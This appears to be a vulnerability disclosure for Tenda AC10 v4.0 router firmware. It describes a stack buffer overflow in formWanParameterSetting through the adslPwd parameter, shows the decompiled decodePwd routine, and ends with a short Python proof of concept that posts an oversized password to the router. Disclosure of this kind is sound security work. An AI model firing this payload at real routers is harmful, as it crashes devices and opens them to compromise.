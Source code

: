 ## Overview

- Manufacturer's website information：https://www.tenda.com.cn/

- Firmware download website: https://www.tenda.com.cn/download/detail-3506.html、https://www.tenda.com.cn/download/detail-3684.html

## Affected version

AC10 v4.0 V16.03.10.13、V16.03.10.20

## Vulnerability details

The Tenda AC10 v4.0 V16.03.10.13, V16.03.10.20 firmware has a stack overflow vulnerability located in the `formWanParameterSetting` function. This function accepts the `wanType`and `connect` parameter from a POST request. Within `v4 == 2`, this function accepts the `adslPwd` parameter from a POST request, which is assigned to `decodePwd(v11, v15);`. However, since the user has control over the input of `adslPwd`, the function `decodePwd()` leads to a buffer overflow. The user-supplied `adslPwd` can exceed the capacity of the `v15` array, thus triggering this security vulnerability.

![](https://github.com/abcdefg-png/images2/blob/main/image-20240410144504996.png)

![](https://github.com/abcdefg-png/images2/blob/main/image-20240410144434686.png)

![](https://github.com/abcdefg-png/images2/blob/main/image-20240410144449758.png)

```c
_BYTE *__fastcall decodePwd(_BYTE *a1, _BYTE *a2)
{
  _BYTE *result; // $v0
  _BYTE *v3; // [sp+8h] [+8h]
  _BYTE *v4; // [sp+Ch] [+Ch]

  v3 = a1;
  v4 = a2;
  result = a1;
  if ( a1 )
  {
    result = a2;
    if ( a2 )
    {
      while ( *v3 )
      {
        if ( *v3 == 92 )
          ++v3;
        *v4++ = *v3++;
      }
      result = v4;
      *v4 = 0;
    }
  }
  return result;
}
```

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/WanParameterSetting"
payload = b"a"*1000

data = {"wanType":"2","connect":"1","adslPwd": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240409102339559](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409102339559.png)